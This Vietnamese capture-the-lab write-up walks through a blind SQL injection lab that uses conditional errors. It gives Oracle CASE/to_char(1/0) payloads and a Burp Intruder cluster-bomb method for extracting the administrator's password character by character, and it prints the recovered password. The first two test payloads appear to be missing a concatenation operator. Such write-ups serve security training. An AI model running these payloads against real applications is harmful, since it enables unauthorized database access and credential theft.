








# Lab: Blind SQL injection with conditional errors

## Mô tả lab

Mục tiêu của lab là khai thác Blind SQL Injection thông qua lỗi có điều kiện. Trong lab này, ứng dụng không hiển thị trực tiếp kết quả truy vấn SQL, nhưng ta có thể làm cho cơ sở dữ liệu phát sinh lỗi hoặc không phát sinh lỗi tùy theo điều kiện đúng hay sai. Cụ thể, dựa vào việc trang phản hồi bình thường hoặc trả về lỗi server, ta có thể suy ra dữ liệu trong cơ sở dữ liệu.

## Các bước thực hiện

### Kiểm tra xem tham số có bị SQL Injection không

Vì đây là blind SQL injection, ta không thể nhìn thấy kết quả query. Nên cách kiểm tra là tạo ra:
- một input làm truy vấn bình thường
- một input làm truy vấn lỗi

### Trường hợp không lỗi

```sql
' (SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE 'a' END FROM dual)='a'--
```



Vì `1=2` là sai nên không lỗi.

### Trường hợp gây lỗi

```sql
' (SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE 'a' END FROM dual)='a'--
```


Vì `1=1` là đúng nên sinh lỗi.

Từ đây, ta đã có cách để kiểm tra một điều kiện đúng/sai thông qua việc trang có lỗi hay không.

### Xác định độ dài password của administrator

Mình sử dụng hàm `LENGTH()` rồi so sánh với các giá trị số.

Ví dụ payload kiểm tra password có độ dài lớn 1:

```text
TrackingId=HEKak6SwiSv7KtGc' AND (SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a'--
```



Dùng Burp Intruder thử lần lượt từ `1` đến `30`.



Kết quả cuối cùng cho thấy:

- Password của `administrator` dài chính xác 20 ký tự

### Check từng ký tự của password

Sau khi biết mật khẩu dài 20 ký tự, ta brute force từng vị trí.

Có thể dùng Burp Intruder với:

- Payload 1: số thứ tự vị trí từ `1...20`



- Payload 2: brute force ký tự



- Attack type: Cluster bomb

Lọc các request làm server lỗi, ta sẽ đọc được toàn bộ password.



Kết quả cuối cùng thu được password của tài khoản `administrator` là:

```text
6pgak457w0k0mn36k0l0
```



Lab solved.